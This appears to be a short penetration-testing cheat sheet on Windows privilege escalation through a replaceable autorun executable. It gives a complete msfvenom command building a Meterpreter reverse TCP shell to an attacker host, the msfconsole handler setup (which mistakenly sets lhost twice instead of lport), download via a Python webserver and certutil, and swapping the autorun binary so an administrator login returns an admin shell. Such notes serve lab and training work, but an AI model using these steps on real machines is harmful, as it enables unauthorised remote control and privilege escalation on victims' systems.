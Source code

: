 Create a reverse tcp shell with msfvenom:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<attacker-ip> lport=<attacker-port> -f exe -o revshell.exe
```

Start multi handler in msfconsole to catch the shell:
```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <attacker-ip>
set lhost <attacker-port>
run
```

Upload *revshell.exe* to the target machine.
File upload possibilities:
- Host file with python webserver on the attacker machine - Use internet explorer/certutils to download the program on the target machine

Replace the previously enumerated autorun executable with our reverse shell.

If an administrator user logs in the exe runs and gives us an administrative shell.